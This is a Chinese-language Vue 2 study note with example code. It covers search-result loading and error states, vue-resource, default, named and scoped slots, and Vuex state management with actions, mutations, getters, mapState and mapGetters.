#### 组件化编码：第三步，优化

* 空屏展示
* 加载动画
* 失败页面

上面这三种情况，都是需要Search的结果来展示，定义一个合集对象，然后再通过全局事件总线传递过来。同时使用es6来解决缺少字段保留的效果。

代码：

Search.vue

```vue
<template>
  <section class="jumbotron">
    <h3 class="jumbotron-heading">Search Github Users</h3>
    <div>
      <input type="text" placeholder="enter the name you search" v-model="keyword">&nbsp;<button @click="searchUsers">
      Search
    </button>
    </div>
  </section>
</template>

<script>
import axios from "axios";

export default {
  name: 'SearchInfo',
  data() {
    return {
      keyword: ''
    }
  },
  methods: {
    searchUsers() {
      //请求前更新List的数据
      this.$bus.$emit('updateListData',{isFirst:false,isLoading:true,errMsg:'',users:[]});//欢迎词isFirst只出现一次
      //正式请求数据
      axios.get(`https://api.github.com/search/users?q=${this.keyword}`).then(
          response => {
              console.log('请求成功！',response.data)
            //触发全局事件总线
            //this.$bus.$emit('updateListData',response.data.items)
            //请求成功后更新List状态和数据
            this.$bus.$emit('updateListData',{isLoading:false,errMsg:'',users:response.data.items})
          },
          error => {
            console.log('请求失败！',error.message)
            //请求失败
            this.$bus.$emit('updateListData',{isLoading:false,errMsg:error.message,users:[]})
          }
      )
    }
  }
}
</script>

<style>

</style>
```

List.vue

```vue
<template>
  <div class="row">
    <!--展示用户列表-->
    <div v-show="!user.length" class="card" v-for="user in info.users" :key="user.login">
      <a :href="user.html_url" target="_blank">
        
      </a>
      <p class="card-text">{{user.login}}</p>
    </div>
    <!--展示欢迎词-->
    <h1 v-show="info.isFirst">欢迎使用！</h1>
    <!--展示加载中-->
    <h1 v-show="info.isLoading">正在加载中...</h1>
    <!--展示错误信息-->
    <h1 v-show="info.errMsg">{{info.errMsg}}</h1>
  </div>
</template>

<script>
  export default {
    name:'ListInfo',
    data(){
      return{
        info:{
          isFirst:true,//是否为初次展示，点了搜索按钮就得false
          isLoading:false,//是否为加载中，点了搜索但数据还没到，则true
          errMsg:'',//错误展示信息
          users:[]
        }
      }
    },
    methods:{
      searchUser(dataObj){
        console.log('我是List，成功接收到dataObj=',dataObj)
        this.info = dataObj;//直接替换对象，这样替换如果Search中删掉了isFirst则这里最后就没这个字段
        //用es6语法保留isFirst字段
        this.info = {...this.info,...dataObj};//通过字面量的方式去合并同类项
        console.log('我是List，合并后的info',this.info)
      }
    },
    mounted() {
      this.$bus.$on('updateListData',this.searchUser)
    }
  }
</script>

<style scoped>
.album{
  min-height: 50rem;
  padding-top: 3rem;
  padding-bottom: 3rem;
  background-color: #f7f7f7;
}
.card{
  float: left;
  width: 33.333%;
  padding: .75rem;
  margin-bottom: 2rem;
  border: 1px solid #efefef;
  text-align: center;
}
.card > img{
  margin-bottom: .75rem;
  border-radius: 100px;
}
.card-text{
  font-size: 85%;
}
</style>
```

展示效果：

初次进入页面空屏


搜索之后展示列表：可以看到，Search是因为isFirst没用没传了，但List保留了这个字段


如果是网络异常。则这里是展示异常信息




### 发送Ajax请求库vue-resource

```
Vue里的插件库，了解即可，现在维护较少，还是建议axios
```

安装：

```shell
npm i vue-resource
```


引入：

```js
import vueResource from "vue-resource";
```

使用插件：

```js
Vue.use(vueResource);
```

使用之后，所有Vue关联实例都会多一个vue-resource的内容


使用方式和axios一样，都是promise风格，一样的写法，一样的返回和错误。只是调用来源不同


效果


### slot插槽

#### 案例：分类列表

三个列表展示出来三种分类的数据：

App.vue

```vue
<template>
  <div class="container">
    <Categoty title="美食" :listData="foods"/>
    <Categoty title="游戏" :listData="games"/>
    <Categoty title="电影" :listData="films"/>
  </div>
</template>

<script>
import Categoty from './components/Category'

export default {
  name: 'App',
  data(){
    return{
      foods:['火锅','烧烤','小龙虾','牛排'],
      games:['红色警戒','穿越火线','劲舞团','超级玛丽'],
      films:['《教父》','《拆弹专家》','《你好，李焕英》','《鸡大侠》']
    }
  },
  components: {Categoty}
}
</script>

<style>
.container{
  display: flex;
  justify-content: space-around;
}
h3{
  text-align: center;
  background-color: hotpink;
}
</style>
```

Category.vue

```vue
<template>
  <div class="category">
    <h3>{{title}}</h3>
    <ul>
      <li v-for="(item,index) in listData" :key="index">{{item}}</li>
    </ul>
  </div>
</template>

<script>
export default {
  name:'CategotyInfo',
  props:['title','listData']
}
</script>

<style>
.category{
  background-color: skyblue;
  width: 200px;
  height: 300px;
}
</style>
```

展示效果


#### 案例：分类列表使用默认插槽

需要实现效果：


图片：https://s3.ax1x.com/2021/01/16/srJlq0.jpg

电影：http://clips.vorwaerts-gmbh.de/big_buck_bunny.mp4

这时会遇到一个问题，以为分类本来是只有一个组件模板复制而来的。如果以为分类的展示不同，导致分类的判断过多是不行的。

Vue提供了一种方式，组件标签的内部可以写入内容，并在组件模板那里使用`<slot></slot>`来指定存放位置。

```
从组件标签传递内容，在组件模板定制接收
```

App.vue

```vue
<template>
  <div class="container">
    <Categoty title="美食" :listData="foods">
      
    </Categoty>
    <Categoty title="游戏" :listData="games"/>
    <Categoty title="电影" :listData="films">
      <video controls src="http://clips.vorwaerts-gmbh.de/big_buck_bunny.mp4"></video>
    </Categoty>
  </div>
</template>

<script>
import Categoty from './components/Category'

export default {
  name: 'App',
  data(){
    return{
      foods:['火锅','烧烤','小龙虾','牛排'],
      games:['红色警戒','穿越火线','劲舞团','超级玛丽'],
      films:['《教父》','《拆弹专家》','《你好，李焕英》','《鸡大侠》']
    }
  },
  components: {Categoty}
}
</script>

<style scoped>
.container{
  display: flex;
  justify-content: space-around;
}
h3{
  text-align: center;
  background-color: hotpink;
}
img,video{
  width: 100%;
}
</style>
```

Category.vue

```vue
<template>
  <div class="category">
    <h3>{{title}}</h3>
    <!--定义一个插槽-->
    <!--<slot>我是一个默认值，当使用者没有传递时就会出现</slot>-->
    <slot><!--这样标签内有内容就会替换插槽，没有就默认展示列表-->
      <ul>
        <li v-for="(item,index) in listData" :key="index">{{item}}</li>
      </ul>
    </slot>
  </div>
</template>

<script>
export default {
  name:'CategotyInfo',
  props:['title','listData']
}
</script>

<style>
.category{
  background-color: skyblue;
  width: 200px;
  height: 300px;
}
</style>
```

#### 案例：分类列表使用具名插槽

顾名思义，是具有名字的插槽，和代理服务器的使用一样，添加名字是为了适应多个插槽。

一旦给插槽定义name，则必须指定插槽存放内容，否则无法起效。

使用`slot="footer"`就可以将指定标签放入指定插槽。同时多个同名标签元素也是会追加插入到插槽。

使用template+slot有简写方式`<template v-slot:footer>`

代码：

App.vue

```vue
<template>
  <div class="container">
    <Categoty title="美食">
      
      <a slot="footer" href="https://www.baidu.com">点我跳转</a>
    </Categoty>
    <Categoty title="游戏">
      <ul slot="center">
        <li v-for="(item,index) in games" :key="index">{{item}}</li>
      </ul>
      <div class="foot" slot="footer">
        <a href="https://www.baidu.com">单击游戏</a>
        <a href="https://www.baidu.com">网络游戏</a>
      </div>
    </Categoty>
    <Categoty title="电影" :listData="films">
      <video slot="center" controls src="http://clips.vorwaerts-gmbh.de/big_buck_bunny.mp4"></video>
      <template v-slot:footer>
        <div class="foot">
          <a href="https://www.baidu.com">经典</a>
          <a href="https://www.baidu.com">热门</a>
          <a href="https://www.baidu.com">推荐</a>
        </div>
        <h4>欢迎前来观看</h4>
      </template>
    </Categoty>
  </div>
</template>

<script>
import Categoty from './components/Category'

export default {
  name: 'App',
  data(){
    return{
      foods:['火锅','烧烤','小龙虾','牛排'],
      games:['红色警戒','穿越火线','劲舞团','超级玛丽'],
      films:['《教父》','《拆弹专家》','《你好，李焕英》','《鸡大侠》']
    }
  },
  components: {Categoty}
}
</script>

<style scoped>
.container, .foot{
  display: flex;
  justify-content: space-around;
}
h3{
  text-align: center;
  background-color: hotpink;
}
img,video{
  width: 100%;
}
h4{
  text-align: center;
}
</style>
```

Category.vue

```vue
<template>
  <div class="category">
    <h3>{{title}}</h3>
    <!--定义一个插槽-->
    <!--<slot>我是一个默认值，当使用者没有传递时就会出现</slot>-->
    <slot name="center"><!--这样标签内有内容就会替换插槽，没有就默认展示列表-->
      center空信息
    </slot>
    <slot name="footer">我是一个默认值，当使用者没有传递时就会出现</slot>
  </div>
</template>

<script>
export default {
  name:'CategotyInfo',
  props:['title','listData']
}
</script>

<style>
.category{
  background-color: skyblue;
  width: 200px;
  height: 300px;
}
</style>
```

展示效果：


#### 案例：分类列表使用作用域插槽

```
需求：只有一个游戏列表，但每次生成不一样
第一次生成：无序列表
第二次生成：有序列表
第三次生成：都是h4标题
```

数据没变，但是根据数据所生成的结构有变化，通用这里也有具有第一个案例的问题，在组件模板中增加大量判断。

如果存在一个场景，Category的使用者App没有数据，但是定义了Category的元素，而数据是存储在Category组件里面，那么两个组件之间具有作用域，App在使用CAtegory组件时，没法获取到组件Category的数据

像是这种子组件通信父组件有很多方式，插槽提供了一种方式让子组件在被父组件使用时，父组件可以获取到组件的数据

```
这种使用方式很像props，但是这是由子传递给父的，并且使用的标签不是组件标签，而是插槽slot
```

子组件Category.vue：将自己的数据传递给使用者组件

```vue
<template>
  <div class="category">
    <h3>{{title}}</h3>
    <slot :games="games">我是一个默认值，当使用者没有传递时就会出现</slot>
  </div>
</template>

<script>
export default {
  name:'CategotyInfo',
  data(){
    return{
      games:['红色警戒','穿越火线','劲舞团','超级玛丽']
    }
  },
  props:['title']
}
</script>

<style>
.category{
  background-color: skyblue;
  width: 200px;
  height: 300px;
}
h3{
  text-align: center;
  background-color: hotpink;
}
</style>
```

父组件App.vue：要用template+scope接收数据对象，再从对象中提取真实数据

```vue
<template>
  <div class="container">
    <Categoty title="游戏">
      <template scope="data">
        <ul>
          <li v-for="(item,index) in data.games" :key="index">{{item}}</li>
        </ul>
      </template>
    </Categoty>

    <Categoty title="游戏">
      <template scope="{games}"><!--es6语法结构赋值，获取数据对象中的有效数据-->
        <ol>
          <li style="color: darkred" v-for="(item,index) in games" :key="index">{{item}}</li>
        </ol>
      </template>
    </Categoty>

    <Categoty title="游戏">
      <template slot-scope="{games}"><!--es6语法结构赋值，获取数据对象中的有效数据【新api】-->
        <h4 v-for="(item,index) in games" :key="index">{{item}}</h4>
      </template>
    </Categoty>
  </div>
</template>

<script>
import Categoty from './components/Category'

export default {
  name: 'App',
  components: {Categoty}
}
</script>

<style scoped>
.container, .foot{
  display: flex;
  justify-content: space-around;
}
img,video{
  width: 100%;
}
h4{
  text-align: center;
}
</style>
```

这里是对应一种场景，使用者只决定结构，数据在被使用者内部时，可以使用这种方式反向传递数据

#### 总结





## 数据保管vuex

### 是什么

1. 概念：专门在Vue中实现**集中式**状态（**数据**）管理的一个Vue**插件**，对Vue应用中多个组件的共享状态进行集中式的管理（读/写），也是一种组件间通信的方式，且适用于任意组件间通信。
2. Github地址：https://github.com/vuejs/vuex

集中式的反向是分布式。状态也就是数据。插件要用Vue.use(...)使用。组件通信。

> 多组件共享数据——全局事件总线实现

组件A的数据通过全局事件总线，让B、C、D组件读写使用。但可以看到A组件为了全局共享而使得各个组件间的自定义事件线混乱。


> 多组件共享数据——vuex实现

vuex提供了一个全局平台，让所有组件都去那里读写全局数据。


### 什么时候使用vuex

1. 多个组件依赖于同一状态
2. 来自不同组件的行为需要变更同一状态

### 案例：求和

 实现一个数值的求和功能。


App.vue

```vue
<template>
  <div>
    <Count/>
  </div>
</template>

<script>
import Count from './components/Count'

export default {
  name: 'CountInfo',
  components:{Count}
}
</script>
```

Count.vue

```vue
<template>
  <div>
    <h1>当前求和为：{{sum}}</h1>
    <select v-model.number="n">
      <option :value="1">1</option>
      <option :value="2">2</option>
      <option :value="3">3</option>
    </select>
    <button @click="increment">+</button>
    <button @click="decrement">-</button>
    <button @click="incrementOdd">当前求和为奇数再加</button>
    <button @click="incrementWait">等一等再加</button>
  </div>
</template>

<script>
export default {
  name:'CountInfo',
  data(){
    return{
      n:1,//用户选择的数据
      sum:0
    }
  },
  methods:{
    increment(){
      this.sum += this.n;
    },
    decrement(){
      this.sum -= this.n;
    },
    incrementOdd(){
      if (this.sum % 2){
        this.sum += this.n;
      }
    },
    incrementWait(){
      setTimeout(()=>{
        //函数体
        this.sum += this.n;
      },500)
    }
  }
}
</script>

<style>
button{
  margin-left: 5px;
}
</style>
```

展示效果：


### vuex的工作流程

将前面案例中的操作对象sum，存储到vuex中。


vuex的工作原理


通常说的要把数据交由vuex进行管理，是交给vuex中的state对象（Object）进行管理。数据从组件发送向vuex最终渲染回组件。

实现 sum+2的一个过程：


【Vue Components】组件


【Actions】事件：要执行的操作，可以进行同步或者异步操作事件

* 【Backend API】后端接口


【Mutations】执行：操作结束之后，actions通过commit更新state数据源

* 【Devtools】vuex官方提供的开发调试工具


【State】数据：用来存放数据源，就是公共状态


一个完整的执行流程如下：

```
Vue组件（action里面的dispatch )--> actions(commit方法） -->mutations（Mutate）--> state（getter） -->store更新所有调用vuex的组件（Vue Component组件）
```


1. 组件通过dispatch提交一个actions

   ```
   dispatch('加',2)
   ```

2. actions接收到这个事件之后，在actions中可以执行一些异步|同步操作，根据不同情况去分发给不同的mutations

   ```js
   {
   ...其他数据...
   '加':function(...){
   	...
   }
   }
   ```

3. actions通过commit去触发mutations

   ```js
   {
   ...其他数据...
   '加':function(...){
   	...
       commit('加',2)
   }
   }
   ```

4. mutations去更新state数据，state更新之后，就会通知vue进行渲染

   ```js
   {
   ...
   '加':function(...){
   ...
   state.sum += 2;
   }
   }
   ```


这些流程中的对象都是包含在store中，所以实际在使用时就要以这种方式来调用。


### 搭建vuex环境

1. 安装vuex

   ```shell
   npm i vuex
   ```

   在2022年2月7日中，vue3已经成为了默认版本。这里不能直接这样安装：会报错

   * vue2中，要用vuex的3版本
   * vue3中，要用vuex的4版本

   这里使用的是vue2，所以使用vuex3版本

   ```shell
   npm i vuex@3
   ```

   

2. 使用vuex插件

   ```vue
   //引入vuex
   import Vuex from "vuex";
   ```

3. 创建store

   在使用了vuex之后，就可以在创建vm时引入store配置项

   创建方式：

   * 创建一个vuex文件夹，在里面创建store.js
   * 创建一个store文件夹，在里面创建index.js【官方】

   编写配置还有实例化Store实例，以为使用vuex插件要在store实例化之前，所以将vuex引入也放入这里。

   store/index.js

   ```js
   //该文件用于创建Vuex中最为核心的store
   //引入vue
   import Vue from 'vue'
   //引入Vuex
   import Vuex from 'vuex'
   //使用vuex
   Vue.use(Vuex);
   
   //准备actions_用于响应组件中的动作
   const actions = {}
   //准备mutations_用于操作数据（state）
   const mutations = {}
   //准备mutations_用于存储数据
   const state = {}
   
   //创建并保留Store
   export default new Vuex.Store({
       actions:actions,
       mutations:mutations,
       state:state
   });
   ```

   main.js 在vm配置中配置Store

   ```js
   //引入Vue
   import Vue from 'vue'
   //引入App
   import App from './App'
   //引入vue-resource
   import vueResource from "vue-resource";
   //引入vuex
   import Vuex from "vuex";
   //引入store
   import store from "@/store";//默认拿index
   
   //关闭vue的生产提示
   Vue.config.productionTip=false
   //使用插件
   Vue.use(vueResource);
   Vue.use(Vuex);
   
   //创建Vue实例
   new Vue({
       el:'#app',
       render: h => h(App),//全局的实例都有插件中的data追加值
       store:store,
       beforeCreate() {
           Vue.prototype.$bus = this;//安装全局事件总线
       }
   })
   ```

4. vc使用store

   在前面成功使用vuex插件之后，可以输出下组件的this看看

   Count.vue

   ```vue
   <template>
     <div>
       <h1>当前求和为：{{sum}}</h1>
       <select v-model.number="n">
         <option :value="1">1</option>
         <option :value="2">2</option>
         <option :value="3">3</option>
       </select>
       <button @click="increment">+</button>
       <button @click="decrement">-</button>
       <button @click="incrementOdd">当前求和为奇数再加</button>
       <button @click="incrementWait">等一等再加</button>
     </div>
   </template>
   
   <script>
   export default {
     name:'CountInfo',
     data(){
       return{
         n:1,//用户选择的数据
         sum:0
       }
     },
     methods:{
       increment(){
         this.sum += this.n;
       },
       decrement(){
         this.sum -= this.n;
       },
       incrementOdd(){
         if (this.sum % 2){
           this.sum += this.n;
         }
       },
       incrementWait(){
         setTimeout(()=>{
           //函数体
           this.sum += this.n;
         },500)
       }
     },
     mounted() {
       console.log(this)
     }
   }
   </script>
   
   <style>
   button{
     margin-left: 5px;
   }
   </style>
   ```

   效果：

   

   里面包含了dispatch和commit


### 案例：求和使用vuex

将前面案例中的sum数据放到vuex中管理


1. 先将Count.vue中的sum剪切到store/index.js中

   

2. 将Count.vue中的加法函数，改为发送一个dispatch

   

3. 在store/index.js中定义动作action内容

   

4. actions中传递context，这是一个贯穿vuex执行流程的上下文

5. mutations收到提交，开始操作state

   

6. Count.vue中获取vuex的数据

   

展示效果：


下拉选择2，点击＋


控制台输出


（对于要放到全局访问的数据，才使用vuex）

之前的其他功能也是这样去访问和读写。

main.js

```js
//引入Vue
import Vue from 'vue'
//引入App
import App from './App'
//引入vue-resource
import vueResource from "vue-resource";
//引入vuex
import Vuex from "vuex";
//引入store
import store from "@/store";//默认拿index

//关闭vue的生产提示
Vue.config.productionTip=false
//使用插件
Vue.use(vueResource);

//创建Vue实例
new Vue({
    el:'#app',
    render: h => h(App),//全局的实例都有插件中的data追加值
    store:store,
    beforeCreate() {
        Vue.prototype.$bus = this;//安装全局事件总线
    }
})
```

store/index.js

```js
//该文件用于创建Vuex中最为核心的store
//引入vue
import Vue from 'vue'
//引入Vuex
import Vuex from 'vuex'
//使用vuex
Vue.use(Vuex);

//准备actions_用于响应组件中的动作
const actions = {
    'jia':function (context,value){
        console.log('[actions]:jia,minStore=',context)
        console.log('[actions]:jia,value=',value)
        context.commit('JIA',value)
    },
    'jian':function (context,value){
        console.log('[actions]:jian,minStore=',context)
        console.log('[actions]:jian,value=',value)
        context.commit('JIAN',value)
    },
    'jiaOdd':function (context,value){
        console.log('[actions]:jiaOdd,minStore=',context)
        console.log('[actions]:jiaOdd,value=',value)
        if (context.state.sum %2){//判断逻辑在actions
            context.commit('JIA',value)
        }
    },
    'jiaWait':function (context,value){
        console.log('[actions]:jiaWait,minStore=',context)
        console.log('[actions]:jiaWait,value=',value)
        setTimeout(()=>{
            context.commit('JIA',value);
        },500)
    },
}
//准备mutations_用于操作数据（state）
const mutations = {
    JIA(state,value){//在这里不要写任逻辑判断和业务请求
        console.log('[mutations]:JIA,state=',state)
        console.log('[mutations]:JIA,value=',value)
        //执行具体操作
        state.sum += value;
    },
    JIAN(state,value){
        console.log('[mutations]:JIAN,state=',state)
        console.log('[mutations]:JIAN,value=',value)
        //执行具体操作
        state.sum -= value;
    }
}
//准备mutations_用于存储数据
const state = {sum:0}

//创建并保留Store
export default new Vuex.Store({
    actions:actions,
    mutations:mutations,
    state:state
});
```

App.vue

```vue
<template>
  <div>
    <Count/>
  </div>
</template>

<script>
import Count from './components/Count'

export default {
  name: 'CountInfo',
  components:{Count}
}
</script>
```

Count.vue

```vue
<template>
  <div>
    <h1>当前求和为：{{$store.state.sum}}</h1>
    <select v-model.number="n">
      <option :value="1">1</option>
      <option :value="2">2</option>
      <option :value="3">3</option>
    </select>
    <button @click="increment">+</button>
    <button @click="decrement">-</button>
    <button @click="incrementOdd">当前求和为奇数再加</button>
    <button @click="incrementWait">等一等再加</button>
  </div>
</template>

<script>
export default {
  name:'CountInfo',
  data(){
    return{
      n:1//用户选择的数据
      //sum:0
    }
  },
  methods:{
    increment(){//加
      //this.sum += this.n;
      this.$store.dispatch('jia',this.n);
    },
    decrement(){//减
      //this.sum -= this.n;
      this.$store.dispatch('jian',this.n);
    },
    incrementOdd(){//只给奇数加
      // if (this.$store.state.sum % 2){
      //    this.sum += this.n;
      // }
      this.$store.dispatch('jiaOdd',this.n);
    },
    incrementWait(){//延迟加
      // setTimeout(()=>{
      //   //函数体
      //   this.sum += this.n;
      // },500)
      this.$store.dispatch('jiaWait',this.n);
    }
  },
  mounted() {
    console.log(this)
  }
}
</script>

<style>
button{
  margin-left: 5px;
}
</style>
```

展示效果：


#### 优化

可以看到jiaOdd和jiaWait这两个actions的操作是带有逻辑的，因为mutations是只做具体操作，不做请求和业务判断。

相反：原始的jia和jian这两个actions只是起到一个转发的作用，这里和直接调mutations没有区别，这里可以优化。


直接在组件中使用commit调用mutations操作state


其效果和前面的功能一样。


### vuex开发工具

在之前使用vue开发者工具中的vuex选项卡。


加1时的记录


减1时的记录


### vuex的actions注意

前面的actions除了调用mutations外，还支持将请求传递给下一个actions，类似软件设计模式中的职责链模式。


actions的存在是负责做业务逻辑，如果取消了actions，将业务逻辑写在组件，然后直接commit到mutations。那最终这种编码形式就没利用vuex的特点。

* vuex提供actions是为了提高代码复用，业务分层

假设组件是要做一个发票报销的流程：收到发票号->调用后端核验发票号真伪->调用后端核验发票类型->调用后端判断发票来源->发票报销

那么不用actions有两个问题：

* 代码复用差：其他要操作发票的功能可能相同api去写重复代码
* 业务没分层：每一个流程都要做很多判断，多个串联时代码更是复杂


### vuex的mutations注意

注意：将数据state的操作交由mutations来进行，如果在actions中就直接操作数据state，则没法被vuex开发者工具监听到。


### vuex的getters

假设有一个需求是展示一个sum的复杂计算结果，并且是多个组件可以访问的，则会使用到sum（不使用计算属性是因为计算属性没法跨组件）

1. 在vuex配置项目中定义getters

   

2. 在vuex配置项目中配置getters

   

3. 在组件中使用getters

   

使用体验就是一个全局的计算属性，来源属性就是state对象中的sum

### vuex使用优化

#### 计算属性优化

例子 ：往state存储多个数据，在访问时发现每次调用全局数据都很麻烦


可以使用计算属性来包装去掉前面的前缀


这样在使用时的风格就是简洁了。


#### mapState优化

前面为了在使用state数据方便时，将其设计为计算属性。但可以看到这种计算属性都有类似的目的，是为了使用一个别名来读取state数据。在未来这种语法优化会有很多，重复去创建编写计算属性方法很麻烦，为此vuex提供了一个模块：mapState（大概功能就是State的映射）


* 引入mapState模块

  ```js
  impoert {mapState} from 'vuex'
  ```

* mapState来替换原本计算属性写法

  

* 原本的计算属性写法

  ```js
  computed:{
    //手写的计算属性
    sum(){
      return this.$store.state.sum;
    },
    bigSum(){
      return this.$store.getters.bigSum;
    },
    school(){
      return this.$store.state.school;
    },
    subject(){
      return this.$store.state.subject;
    }
  },
  ```

  在vue开发者工具中：

  

* 使用mapState来自动生成计算属性（第一种写法es6展开）

  ```js
  computed:{
      //手写的计算属性
      /*sum(){
        return this.$store.state.sum;
      },
      bigSum(){
        return this.$store.getters.bigSum;
      },
      school(){
        return this.$store.state.school;
      },
      subject(){
        return this.$store.state.subject;
      }*/
      //使用mapState实现State属性映射（计算属性），不在State的则照常写
      ...mapState({sum:'sum',school:'school',subject:'subject'}),
      bigSum(){
        return this.$store.getters.bigSum;
      },
  },
  ```

  在vuex开发者工具中：

  

* 数组写法（简写：接收的key和value一样时可以简写，这里的简写不是es6的简写，而是只提供一个数组就行）

  ```js
  computed:{
      //手写的计算属性
      /*sum(){
        return this.$store.state.sum;
      },
      bigSum(){
        return this.$store.getters.bigSum;
      },
      school(){
        return this.$store.state.school;
      },
      subject(){
        return this.$store.state.subject;
      }*/
      //使用mapState实现State属性映射（计算属性），不在State的则照常写
      //...mapState({sum:'sum',school:'school',subject:'subject'}),
      ...mapState(['sum','school','subject']),
      bigSum(){
        return this.$store.getters.bigSum;
      },
    },
  ```

  数组写法中，一个元素有两种作用：

  * 生成的计算属性命名
  * 在state中找到对应的值

  在vuex开发工具中：

  

  


#### mapGetters优化

对于getter这一个也有访问优化，用法和mapState一样。

模块引入

```js
import {mapState,mapGetters} from 'vuex'
```

编写自动化映射代码（）

```js
  computed:{
    //手写的计算属性
    /*sum(){
      return this.$store.state.sum;
    },
    bigSum(){
      return this.$store.getters.bigSum;
    },
    school(){
      return this.$store.state.school;
    },
    subject(){
      return this.$store.state.subject;
    }*/
    //使用mapState实现State属性映射（计算属性），不在State的则照常写
    //...mapState({sum:'sum',school:'school',subject:'subject'}),
    ...mapState(['sum','school','subject']),
    ...mapGetters(['bigSum'])
  },
```

在vuex开发者工具中查看：


代码：

main.js

```js
//引入Vue
import Vue from 'vue'
//引入App
import App from './App'
//引入vue-resource
import vueResource from "vue-resource";
//引入vuex
import Vuex from "vuex";
//引入store
import store from "@/store";//默认拿index

//关闭vue的生产提示
Vue.config.productionTip=false
//使用插件
Vue.use(vueResource);

//创建Vue实例
new Vue({
    el:'#app',
    render: h => h(App),//全局的实例都有插件中的data追加值
    store:store,
    beforeCreate() {
        Vue.prototype.$bus = this;//安装全局事件总线
    }
})
```

index.js

```js
//该文件用于创建Vuex中最为核心的store
//引入vue
import Vue from 'vue'
//引入Vuex
import Vuex from 'vuex'
//使用vuex
Vue.use(Vuex);

//准备actions_用于响应组件中的动作
const actions = {
    // 'jia':function (context,value){
    //     console.log('[actions]:jia,minStore=',context)
    //     console.log('[actions]:jia,value=',value)
    //     context.commit('JIA',value)
    // },
    // 'jian':function (context,value){
    //     console.log('[actions]:jian,minStore=',context)
    //     console.log('[actions]:jian,value=',value)
    //     context.commit('JIAN',value)
    // },
    'jiaOdd':function (context,value){
        console.log('[actions]:jiaOdd,minStore=',context)
        console.log('[actions]:jiaOdd,value=',value)
        if (context.state.sum %2){//判断逻辑在actions
            context.commit('JIA',value)
        }
    },
    'jiaWait':function (context,value){
        console.log('[actions]:jiaWait,minStore=',context)
        console.log('[actions]:jiaWait,value=',value)
        setTimeout(()=>{
            context.commit('JIA',value);
        },500)
    },
}
//准备mutations_用于操作数据（state）
const mutations = {
    JIA(state,value){//在这里不要写任逻辑判断和业务请求
        console.log('[mutations]:JIA,state=',state)
        console.log('[mutations]:JIA,value=',value)
        //执行具体操作
        state.sum += value;
    },
    JIAN(state,value){
        console.log('[mutations]:JIAN,state=',state)
        console.log('[mutations]:JIAN,value=',value)
        //执行具体操作
        state.sum -= value;
    }
}
//准备mutations_用于存储数据
const state = {
    sum:0,
    school:'白云大学',
    subject:'Java开发'
}
//准备getters_用于将state中的数据进行加工
const getters = {
    // 'bigSum':function (state) {//传统写法，key：value，value对应一个函数的返回值
    //     return state.sum * 10;
    // }
    bigSum(state){//es6优化写法
        return state.sum * 10;
    }
}

//创建并保留Store
export default new Vuex.Store({
    actions:actions,
    mutations:mutations,
    state:state,
    getters:getters
});
```

App.vue

```vue
<template>
  <div>
    <Count/>
  </div>
</template>

<script>
import Count from './components/Count'

export default {
  name: 'CountInfo',
  components:{Count}
}
</script>
```

Count.vue

```vue
<template>
  <div>
    <h1>当前求和为：{{sum}}</h1>
    <h1>当前求和放大10倍为：{{bigSum}}</h1>
    <h1>我在{{school}}，学习{{subject}}</h1>
    <select v-model.number="n">
      <option :value="1">1</option>
      <option :value="2">2</option>
      <option :value="3">3</option>
    </select>
    <button @click="increment">+</button>
    <button @click="decrement">-</button>
    <button @click="incrementOdd">当前求和为奇数再加</button>
    <button @click="incrementWait">等一等再加</button>
  </div>
</template>

<script>
import {mapState,mapGetters} from 'vuex'

export default {
  name:'CountInfo',
  data(){
    return{
      n:1//用户选择的数据
      //sum:0
    }
  },
  methods:{
    increment(){//加
      //this.sum += this.n;
      //this.$store.dispatch('jia',this.n);
      this.$store.commit('JIA',this.n);
    },
    decrement(){//减
      //this.sum -= this.n;
      //this.$store.dispatch('jian',this.n);
      this.$store.commit('JIAN',this.n);
    },
    incrementOdd(){//只给奇数加
      // if (this.$store.state.sum % 2){
      //    this.sum += this.n;
      // }
      this.$store.dispatch('jiaOdd',this.n);
    },
    incrementWait(){//延迟加
      // setTimeout(()=>{
      //   //函数体
      //   this.sum += this.n;
      // },500)
      this.$store.dispatch('jiaWait',this.n);
    }
  },
  computed:{
    //手写的计算属性
    /*sum(){
      return this.$store.state.sum;
    },
    bigSum(){
      return this.$store.getters.bigSum;
    },
    school(){
      return this.$store.state.school;
    },
    subject(){
      return this.$store.state.subject;
    }*/
    //使用mapState实现State属性映射（计算属性），不在State的则照常写
    //...mapState({sum:'sum',school:'school',subject:'subject'}),
    ...mapState(['sum','school','subject']),
    ...mapGetters(['bigSum'])
  },
  mounted() {
    console.log(this)
  }
}
</script>

<style>
button{
  margin-left: 5px;
}
</style>
```

